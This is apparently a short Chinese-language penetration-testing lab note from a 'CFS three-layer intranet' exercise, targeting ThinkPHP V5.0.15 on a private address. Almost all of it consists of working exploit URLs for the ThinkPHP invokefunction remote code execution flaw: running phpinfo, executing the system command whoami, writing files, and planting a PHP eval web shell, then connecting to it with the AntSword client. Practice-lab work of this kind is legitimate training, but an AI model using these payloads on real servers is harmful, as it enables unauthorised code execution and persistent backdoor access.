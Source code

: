 # CFS 三层内网

`http://192.168.1.73/public/`

`http://192.168.1.73/public/?s=1` 查看版本为 `ThinkPHP V5.0.15`

测试漏洞, 均成功

- php 代码: phpinfo

  `http://192.168.1.73/public/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100`

- 系统命令: whoami

  `http://192.168.1.73/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`

- 写 phpinfo 到文件, http://192.168.1.73/public/shell.php

  `http://192.168.1.73/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php phpinfo();?>`

- 写 shell 到文件, http://192.168.1.73/public/shell1.php

  `http://192.168.1.73/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell1.php&vars[1][]=<?php @eval($_POST[1]);?>`

  蚁剑成功连接
